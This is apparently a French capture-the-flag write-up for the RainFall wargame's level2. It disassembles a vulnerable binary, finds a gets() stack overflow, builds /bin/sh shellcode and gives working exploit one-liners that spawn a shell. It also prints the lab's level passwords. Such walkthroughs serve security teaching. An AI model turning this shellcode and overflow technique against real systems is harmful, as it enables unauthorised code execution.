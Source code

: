 # level2 :

pass : `53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77`

```bash
level0@RainFall:~$ su level2
Password: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

## Source :

fonction `main`

```nasm
Dump of assembler code for function main:
   0x0804853f <+0>:	push   ebp
   0x08048540 <+1>:	mov    ebp,esp
   0x08048542 <+3>:	and    esp,0xfffffff0
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
```

```c
int		main(int ac, char **av, char **envp) {
	return(p());
}
```

fonction `p`

```nasm
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   ebp
   0x080484d5 <+1>:	mov    ebp,esp
   0x080484d7 <+3>:	sub    esp,0x68
   0x080484da <+6>:	mov    eax,ds:0x8049860
   0x080484df <+11>:	mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:	and    eax,0xb0000000
   0x08048500 <+44>:	cmp    eax,0xb0000000
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    eax,0x8048620
   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:	mov    DWORD PTR [esp],eax
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
End of assembler dump.
```

```c
p() {
    int var = fflush(FILE *stream); // trouver l'argument
    // var is save at [ebp-0x4c]
    char str[76];
    str = gets(str);

    if () {
        printf();
        exit(1);
    }
}
```

## Recherche :

```
level2@RainFall:~$ objdump -d level2 | grep "call $eax"
804835c:	e8 00 00 00 00       	call   8048361 <_init+0x9>
8048372:	e8 89 00 00 00       	call   8048400 <__gmon_start__@plt>
8048377:	e8 34 01 00 00       	call   80484b0 <frame_dummy>
804837c:	e8 4f 02 00 00       	call   80485d0 <__do_global_ctors_aux>
804843c:	e8 cf ff ff ff       	call   8048410 <__libc_start_main@plt>
8048488:	ff 14 85 50 97 04 08 	call   *0x8049750(,%eax,4)
80484cf:	ff d0                	call   *%eax
80484e2:	e8 c9 fe ff ff       	call   80483b0 <fflush@plt>
80484ed:	e8 ce fe ff ff       	call   80483c0 <gets@plt>
8048516:	e8 85 fe ff ff       	call   80483a0 <printf@plt>
8048522:	e8 a9 fe ff ff       	call   80483d0 <_exit@plt>
804852d:	e8 be fe ff ff       	call   80483f0 <puts@plt>
8048538:	e8 a3 fe ff ff       	call   80483e0 <strdup@plt>
8048545:	e8 8a ff ff ff       	call   80484d4 <p>
8048554:	e8 69 00 00 00       	call   80485c2 <__i686.get_pc_thunk.bx>
804856c:	e8 e7 fd ff ff       	call   8048358 <_init>
804859b:	ff 94 b3 20 ff ff ff 	call   *-0xe0(%ebx,%esi,4)
80485eb:	ff d0                	call   *%eax
8048600:	e8 00 00 00 00       	call   8048605 <_fini+0x9>
804860c:	e8 3f fe ff ff       	call   8048450 <__do_global_dtors_aux>
```
Donc l'addresse `80484cf` fait un call au register EAX. Et en little endian : `\xcf\x84\x04\x08`

```gdb
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
gdb-peda$ r
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAJAAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x804a008 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAJAAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
EBX: 0xb7fd0ff4 --> 0x1a4d7c
ECX: 0x0
EDX: 0xbffff69c ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAJAAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
ESI: 0x0
EDI: 0x0
EBP: 0x41344141 ('AA4A')
ESP: 0xbffff6f0 ("fAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
EIP: 0x41414a41 ('AJAA')
EFLAGS: 0x210282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414a41
[------------------------------------stack-------------------------------------]
0000| 0xbffff6f0 ("fAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0004| 0xbffff6f4 ("AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0008| 0xbffff6f8 ("AgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0012| 0xbffff6fc ("6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0016| 0xbffff700 ("AAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0020| 0xbffff704 ("A7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0024| 0xbffff708 ("MAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0028| 0xbffff70c ("AA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414a41 in ?? ()
gdb-peda$ pattern search
Registers contain pattern buffer:
EIP+0 found at offset: 80
EBP+0 found at offset: 76
Registers point to pattern buffer:
[EAX] --> offset 0 - size ~200
[EDX] --> offset 0 - size ~200
[ESP] --> offset 84 - size ~116
Pattern buffer found at:
0x0804a04b : offset   67 - size  133 ([heap])
0xb7fd9043 : offset   67 - size  133 (mapped)
0xb7fda000 : offset    0 - size  200 (mapped)
0xbffff6df : offset   67 - size  133 ($sp + -0x11 [-5 dwords])
References to pattern buffer found at:
0xb7fd1acc : 0xb7fda000 (/lib/i386-linux-gnu/libc-2.15.so)
0xb7fd1ad0 : 0xb7fda000 (/lib/i386-linux-gnu/libc-2.15.so)
0xb7fd1ad4 : 0xb7fda000 (/lib/i386-linux-gnu/libc-2.15.so)
0xb7fd1ad8 : 0xb7fda000 (/lib/i386-linux-gnu/libc-2.15.so)
0xb7fd1adc : 0xb7fda000 (/lib/i386-linux-gnu/libc-2.15.so)
```

Donc `EIP` est réécrit à l'ofset 80.

Soit le code asm suivant permettant d'executer un `/bin/sh`:
```nasm
.global main
main:
    push   $0xb
    pop    %eax
    xor    %esi,%esi
    push   %esi
    push   $0x68732f2f
    push   $0x6e69622f
    mov    %esp,%ebx
    xor    %ecx,%ecx
    mov    %ecx,%edx
    int    $0x80
```
 qui compilé donne le shell code suivant :
`\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80`

## Exploit :

```bash
level2@RainFall:~$ (perl -e 'print "\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80"."\x90"x(80-24)."\xcf\x84\x04\x08"'; cat;) | ./level2
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LC_TERMINAL_VERSION = "3.3.7",
	LC_CTYPE = "UTF-8",
	LC_TERMINAL = "iTerm2",
	LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").

 X1�Vh//shh/bin��1ɉ�̀����������������������������������������������������τ
whoami
level3
pwd
/home/user/level2
cd ../level3
cat .pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

On peut trouver sur internet des shell codes qui fonctionnent directement comme sur cette page :
http://shell-storm.org/shellcode/files/shellcode-811.php

`(perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"."\x90"x(80-28)."\xcf\x84\x04\x08"'; cat;) | ./level2`

----

## Documentation :

* [0x0ff.info - BUFFER OVERFLOW & GDB – PART 1](https://www.0x0ff.info/2015/buffer-overflow-gdb-part1/)
* [0x0ff.info - BUFFER OVERFLOW & GDB – PART 2](https://www.0x0ff.info/2015/buffer-overflow-gdb-part-2/)
* [0x0ff.info - BUFFER OVERFLOW & GDB – PART 3](https://www.0x0ff.info/2015/buffer-overflow-gdb-part-3/)
* [NASM Tutorial](https://cs.lmu.edu/~ray/notes/nasmtutorial/)
* [hackndo - Buffer Overflow](https://beta.hackndo.com/buffer-overflow/)
![](https://www.0x0ff.info/wp-content/uploads/2015/12/buffer-overflow-memory-segmentation-cheat-sheet.png)
